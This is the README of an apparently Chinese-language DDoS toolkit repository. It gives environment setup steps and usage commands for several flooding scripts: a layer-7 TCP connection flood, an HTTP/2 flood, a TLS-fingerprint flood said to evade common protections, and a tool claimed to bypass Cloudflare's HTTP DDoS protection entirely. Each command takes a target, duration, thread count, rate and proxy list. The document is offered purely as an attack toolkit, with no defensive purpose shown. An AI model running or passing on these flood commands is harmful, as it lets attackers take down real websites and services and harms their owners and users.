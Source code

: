 # CC-scripts-and-environments
环境准备：

安装操作系统 Ubuntu 22

apt install update - 更新源

apt install curl - 安装curl

chmod 777 * - 给当前目录脚本可执行权限

sh install.sh - 运行安装脚本环境的shell文件

ATTACK脚本介绍和执行命令：
L7 TCP - TCP
通过大量的L7层TCP连接消耗服务器带宽资源

执行命令：
./tcp 目标 时间 代理

HTTPS
原始洪水，HTTP/2.0协议 测试下来洪水量最高的脚本

执行命令：
node tornadov2.js GET/POST 目标 时间 线程 速率 代理 --http 2 --legit

TLS指纹洪水 - TLS
能够绕过一些普防，绕过率和洪水量兼备

执行命令：
node tls.js 目标 时间 速率 线程 代理

cf-yujian
100%绕过 CF-HTTPDDOS HTTP/1.1协议绕过

执行命令：
./fox GET 目标 代理 时间 线程 速率
